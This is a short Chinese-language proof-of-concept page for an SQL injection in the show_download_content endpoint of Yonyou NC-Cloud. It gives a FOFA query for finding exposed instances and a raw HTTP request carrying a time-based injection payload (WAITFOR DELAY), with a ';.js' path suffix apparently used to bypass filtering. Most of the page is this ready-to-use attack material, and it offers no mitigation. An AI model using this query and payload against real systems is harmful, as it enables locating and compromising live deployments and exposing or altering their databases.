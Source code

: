 # 用友NC-Cloud系统show_download_content接口存在SQL注入漏洞

用友NC-Cloud系统show_download_content接口存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```yaml
app="用友-NC-Cloud"
```

## poc

```javascript
GET /ebvp/infopub/show_download_content;.js?id=1';WAITFOR+DELAY+'0:0:6'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN
Connection: keep-alive
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409031847062.png)